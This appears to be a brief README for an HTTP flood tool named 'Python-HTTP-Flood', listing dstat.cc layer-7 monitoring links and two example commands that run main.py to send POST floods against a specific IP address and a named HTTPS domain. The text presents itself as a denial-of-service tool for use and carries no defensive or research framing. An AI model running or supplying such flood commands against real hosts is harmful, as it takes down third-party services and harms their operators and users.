 # Python-HTTP-Flood

https://dstat.cc/l7?id=MULTACOM-CORPORATION
python main.py http://142.171.195.145/HIT POST 500

https://dstat.cc/l7ssl?id=FDCservers-1
python main.py https://nodec.mediathektv.com POST 700

